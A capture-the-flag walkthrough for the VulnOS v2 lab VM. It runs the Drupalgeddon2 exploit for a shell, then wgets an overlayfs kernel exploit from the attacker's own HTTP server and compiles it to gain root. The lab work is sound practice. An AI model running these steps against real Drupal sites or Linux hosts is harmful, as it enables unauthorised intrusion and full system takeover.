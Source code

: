 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 15/december/2022

# Vuln OS V2

----------------------------------------------------------------
# nmap scan (website hosted on port 80)
----------------------------------------------------------------
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd

----------------------------------------------------------------
# Its drupal website version 7.x (vulnerable to drupalgeddon)
----------------------------------------------------------------
(Note)
THERE IS SOME PROBLEM WITH THIS EXPLOIT 
YOU CAN'T CHANGE DIRECTORY
AND CANT DO privilege escalation
SO TRY TO USE METASPOIT MODULE FOR EXPLOITATION IF POSSIBLE :)
METASPLOIT MODULE
unix/webapp/drupal_drupalgeddon2)

-> sudo gem install highline
-> git clone https://github.com/dreadlocked/Drupalgeddon2.git
-> pip install droopescan
-> ./drupalgeddon2.rb http://10.0.2.11/jabc/
you got shell

----------------------------------------------------------------
# privilege escalation
  (kernel version is vulnerable overlayfs exploit)
----------------------------------------------------------------
-> uname -r 
3.13.0-24-generic

download https://www.exploit-db.com/exploits/37292
-> python3 -m http.server 8000  

-> cd /tmp
-> wget http://10.0.2.9:8000/37292.c -O exploit.c
-> gcc exploit.c -o exploit
-> ./exploit

You got root

----------------------------------------------------------------
# flag
----------------------------------------------------------------
-> cat /root/flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?